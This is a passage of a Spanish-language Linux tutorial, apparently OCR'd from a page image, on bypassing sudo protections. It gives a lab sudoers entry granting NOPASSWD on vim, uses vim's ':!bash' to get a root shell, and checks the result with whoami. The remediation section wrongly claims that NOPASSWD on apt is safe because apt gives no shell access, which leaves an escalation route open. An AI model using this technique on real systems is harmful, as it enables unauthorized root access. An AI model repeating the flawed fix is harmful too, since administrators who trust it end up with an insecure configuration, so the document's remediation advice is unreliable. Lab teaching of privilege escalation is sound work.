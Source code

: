 ```bash
sudo visudo
```

Agrega:

```bash
usuario1 ALL=(ALL) NOPASSWD: /usr/bin/vim
```

---

#### 🧪 PASO 2: Usa vim para abrir shell root

```bash
su - usuario1
sudo /usr/bin/vim
```

En vim:

```vim
:!bash
```

---

#### 🧪 PASO 3: Verifica que eres root

```bash
whoami
```

✅ Salida:

```
root
```

---

### 🧯 ¿Cómo corregir este error?

1. Quita el permiso NOPASSWD de `vim`
2. Usa visudo para dejar algo así:

```bash
usuario1 ALL=(ALL) NOPASSWD: /usr/bin/apt
```

(apt es más seguro porque no da acceso a shell directamente)

---

### 📘 Resumen

| Elemento                   | Detalle clave                                  |
| -------------------------- | ---------------------------------------------- |
| ¿Qué es?                   | Saltarse protecciones de `sudo`                |
| ¿Cómo ocurre?              | Configuración insegura o vulnerabilidad        |
| Herramientas para probarlo | Kali Linux, VirtualBox, sudo, vim              |
| Ejemplo                    | Usar `vim` para abrir shell root               |
| Prevención                 | No usar NOPASSWD o revisar comandos permitidos |

---